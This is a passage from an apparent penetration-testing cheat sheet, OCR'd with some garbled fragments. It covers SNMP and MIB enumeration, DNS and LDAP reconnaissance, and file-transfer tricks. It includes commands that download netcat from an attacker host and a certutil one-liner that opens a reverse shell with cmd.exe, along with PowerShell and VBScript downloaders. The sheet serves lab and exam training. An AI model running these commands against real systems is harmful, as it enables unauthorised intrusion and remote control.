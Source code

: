 > $ public, private, cisco, manager

Enumerate MIB:

> $ 1.3.6.1.2.1.25.1.6.0 System Processes  
> $ 1.3.6.1.2.1.25.4.2.1.2 Running Programs  
> $ 1.3.6.1.2.1.25.4.2.1.4 Processes Path  
> $ 1.3.6.1.2.1.25.2.3.1.4 Storage Units  
> $ 1.3.6.1.2.1.25.6.3.1.2 Software Name  
> $ 1.3.6.1.4.1.77.1.2.25 User Accounts  
> $ 1.3.6.1.2.1.6.13.1.3 TCP Local Ports

SNMP V3

> $ nmap -p 161 --script=snmp-info &gt; $ip $ default creds:  
> ▪ /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt

## DOMAIN

Leak DC hostname:

> $ noslookup  
> server 10.10.10.172  
> set type=ns  
> 10.10.10.172  
> 127.0.0.1

Nmap:

> $ nmap -p 53 --script=\*dns\* -vv -oN dns &gt; $ip

## LDAP/Active Directory

--Look for anonymous bind

> $ ldapsearch -x -b "dc=megabank,dc=local" "\*" -h &gt; $ip

## FILE TRANSFER

Simple Servers:

> $ python -m SimpleHTTPServer 80  
> $ python -m pyftpdlib -p 21 -w -d /tmp  
> $ ptftpd -p 69 -v eth0 /tmp  
> $ impacket-smbserver -username guest -password guest -smb2support share &gt; $\(pwd\) // Might need to remove -smb2support option

Tools:

> $ Linux & Windows \( Newer Windows versions only \)  
> ▪ wget [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -O nc.exe  
> ▪ curl [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -o nc.exe  
> $ Windows \( Should work on most Windows versions\)  
> ▪powershell \(New-Object System.Net.WebClient\).DownloadFile\("[https://10.10.10.144/test.txt](https://10.10.10.144/test.txt)", "test.txt"\)  
> ▪net use Z: \\computer\_name\share\_name //Mount smb share  
> ▪ &gt; $pass= "guest" \| ConvertTo-SecureString -AsPlainText -Force $cred = New-Object System.Management.Automation.PsCredential\('guest', &gt; $pass\)  
> New-PSDrive -name guest -root \\10.10.15.53\share -Credential &gt; $cred -PSProvider "filesystem"  
> ▪certutil.exe -urlcache -split -f "[http://10.11.0.106:8000/nc.exe](http://10.11.0.106:8000/nc.exe)" nc.exe && nc.exe -nv 10.11.0.106 443 -e cmd.exe  
> ▪VBscript  
> → echo strUrl = WScript.Arguments.Item\(0\) &gt; wget.vbs  
> echo StrFile = WScript.Arguments.Item\(1\) &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 &gt;&gt; wget.vbs  
